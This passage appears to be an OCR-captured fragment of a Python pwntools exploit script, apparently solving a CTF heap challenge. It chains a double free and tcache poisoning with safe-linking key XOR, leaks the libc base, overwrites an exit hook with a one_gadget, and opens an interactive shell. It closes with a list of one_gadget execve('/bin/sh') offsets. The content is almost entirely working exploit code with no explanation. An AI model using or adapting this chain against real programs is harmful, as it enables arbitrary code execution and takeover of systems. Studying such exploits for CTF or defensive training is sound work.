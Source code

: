 ```Python
    free(i)
## double free
free(7)
pause()
add(10,'aaaaaaaa')
free(7)
# pause()

## fake tcache
add(10,p64(key^(heap_base+0x480)))
add(0,b'a'*0x20+p64(key^(heap_base+0x440)))
add(1,b'a'*0x20+p64(key^(heap_base+0x400)))
add(2,b'a'*0x20+p64(key^(heap_base+0x3a0)))
add(3,p64(key^(heap_base+0x380)))
add(4,b'a'*0x20+p64(key^(heap_base+0x340)))
add(5,b'a'*0x20+p64(key)) ##7
add(7,'aaaaaaaa')

## change head of 4 
add(7,b'a'*0x18+p64(0x441))

free(4) 
show(4)
io.recvuntil('Content: ')
libc_base = u64(io.recvuntil('\x0a')[:-1].ljust(8,b'\x00')) - 0x218cc0
success('libc_base-->'+hex(libc_base))

exit_hook = libc_base + 0x21a6c8
one_gadget = libc_base + 0xeeccc
success('exit_hook-->'+hex(exit_hook))

add(11,b'a'*0x18+p64(0x41)+p64(key^(exit_hook-0x8)))
add(12,b'aaaa')
add(13,b'a'*0x8+p64(one_gadget))

io.recvuntil('4. Exit')
io.sendline('4')


io.interactive()
'''
0xeeccc execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xeeccf execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xeecd2 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL'''
```